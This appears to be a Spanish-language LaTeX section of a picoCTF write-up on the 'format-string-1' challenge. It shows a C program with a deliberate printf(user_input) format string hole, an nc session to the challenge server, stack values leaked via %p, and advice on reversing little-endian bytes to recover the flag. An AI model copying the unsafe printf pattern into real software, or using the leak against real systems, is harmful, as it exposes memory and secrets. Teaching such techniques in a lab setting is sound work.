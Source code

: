 \documentclass[../../../main_compilation.tex]{subfiles}
\begin{document}
\subsection{Análisis del Código Fuente Vulnerable}

Inspeccionamos la función principal del binario en C:

\begin{codebox}[C]{format-string-1.c}
#include <stdio.h>
#include <stdlib.h>

int main() {
    char flag[64];
    char user_input[1024];

    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("Error: crea flag.txt para pruebas locales.\n");
        exit(0);
    }
    fgets(flag, sizeof(flag), f); // La flag se almacena en el Stack

    printf("Give me your secret order:\n");
    fgets(user_input, sizeof(user_input), stdin);

    // VULNERABILIDAD DIRECTA: Sin especificador de formato
    printf(user_input);

    return 0;
}
\end{codebox}

\subsection{Fase de Explotación (Memory Leak via \%p / \%x)}

Al enviar múltiples especificadores de formato posicionales \texttt{\%p}, el programa imprimirá las direcciones y valores hexadecimales almacenados en la pila (\textit{stack}):

\begin{terminal}
nc saturn.picoctf.net 58210
Give me your secret order:
0x7b4654436f636970.0x355f723376723335.0x6b6133315f6b6334.0x37346d7230665f.0x3439636238613231
\end{terminal}

\begin{notebox}
Los enteros de 64 bits extraídos de la memoria deben revertirse byte a byte debido a la arquitectura Little-Endian de x86\_64 (por ejemplo \texttt{0x7b4654436f636970} $\rightarrow$ \texttt{picoCTF\{}).
\end{notebox}
\end{document}
